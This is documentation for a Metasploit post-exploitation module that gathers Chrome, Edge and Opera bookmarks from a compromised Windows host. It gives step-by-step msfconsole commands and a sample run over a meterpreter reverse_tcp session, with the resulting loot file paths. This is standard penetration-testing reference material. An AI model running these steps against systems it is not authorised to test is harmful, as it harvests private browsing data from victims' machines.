 ## Vulnerable Application

This modules retrieves stored bookmarks for Google Chrome, Microsoft Edge and Opera if the browsers exist on the target machine.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/get_bookmarks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options


### SESSION

  The session to run this module on.

## Scenarios

### Windows 11.

  ```
msf exploit(multi/handler) > use post/windows/gather/get_bookmarks
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf post(windows/gather/get_bookmarks) > set session 3
session => 3
msf post(windows/gather/get_bookmarks) > run


[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164635_default_GoogleChrome.boo_219405.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164637_default_Opera.bookmarks_833249.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164640_default_Edge.bookmarks_245676.txt
[*] Post module execution completed

msf post(windows/gather/get_bookmarks) > loot

Loot
====

host             service  type                    name                                                                                 content     info                        path
----             -------  ----                    ----                                                                                 -------     ----                        ----
<ip>                       Opera.bookmarks         #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Opera_bookmarks.txt         text/plain  Bookmarks for Opera         C:/metasploit/apps/pro/loot/20220405164430_default_Opera.bookmarks_344376.txt
<ip>                       Edge.bookmarks          #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Edge_bookmarks.txt          text/plain  Bookmarks for Edge          C:/metasploit/apps/pro/loot/20220405164432_default_Edge.bookmarks_798475.txt
<ip>                       GoogleChrome.bookmarks  #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_GoogleChrome_bookmarks.txt  text/plain  Bookmarks for GoogleChrome  C:/metasploit/apps/pro/loot/20220405164427_default_GoogleChrome.boo_256524.txt

  ```

